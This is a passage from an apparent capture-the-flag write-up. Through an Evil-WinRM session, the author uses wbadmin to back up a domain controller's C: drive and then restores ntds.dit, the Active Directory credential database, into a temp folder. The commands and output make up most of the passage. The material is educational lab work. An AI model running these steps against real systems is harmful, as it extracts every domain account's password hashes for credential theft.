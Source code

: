 ```bash
File identification is complete.
The backup of volume (C:) to \\DC01\C$\Temp is starting...
The backup of volume (C:) completed successfully.
Summary of the backup operation:
------------------

The backup operation successfully completed.
The backup of volume (C:) completed successfully.
Log of files successfully backed up:
C:\Windows\Logs\WindowsServerBackup\Backup-03-10-2022_21-21-54.log
```

Note that we had to specify the network share `\\DC01\C$\Temp` for the backup destination as the tool does not allow us to save it locally. We tricked it and pointed the destination to a shared folder on the same machine.

Now let list all the backup versions (restauration points) present on the machine.

```bash
*Evil-WinRM* PS C:\Temp> wbadmin get versions
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.

Backup time: 9/21/2020 4:00 PM
Backup location: Network Share labeled \\10.10.14.4\blackfieldA
Version identifier: 09/21/2020-23:00
Can recover: Volume(s), File(s)

Backup time: 10/3/2022 2:21 PM
Backup location: Network Share labeled \\DC01\C$\Temp
Version identifier: 10/03/2022-21:21
Can recover: Volume(s), File(s)
```

The second one on the list is the one we have just genereated. This is the one we need to use to restore the file.

```bash
*Evil-WinRM* PS C:\Temp> mkdir Restore

*Evil-WinRM* PS C:\Temp> wbadmin start recovery -quiet -version:10/03/2022-21:21 -itemtype:file -items:C:\Windows\ntds\ntds.dit -recoverytarget:C:\Temp\Restore -notrestoreacl
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.

Retrieving volume information...
You have chosen to recover the file(s) C:\Windows\ntds\ntds.dit from the
backup created on 10/3/2022 2:21 PM to C:\Temp\Restore.
Preparing to recover files...

Successfully recovered C:\Windows\ntds\ntds.dit to C:\Temp\Restore\.
The recovery operation completed.
Summary of the recovery operation:
--------------------

Recovery of C:\Windows\ntds\ntds.dit to C:\Temp\Restore\ successfully completed.
Total bytes recovered: 18.00 MB
Total files recovered: 1
Total files failed: 0

Log of files successfully recovered:
C:\Windows\Logs\WindowsServerBackup\FileRestore-03-10-2022_21-30-56.log

*Evil-WinRM* PS C:\Temp> dir Restore


```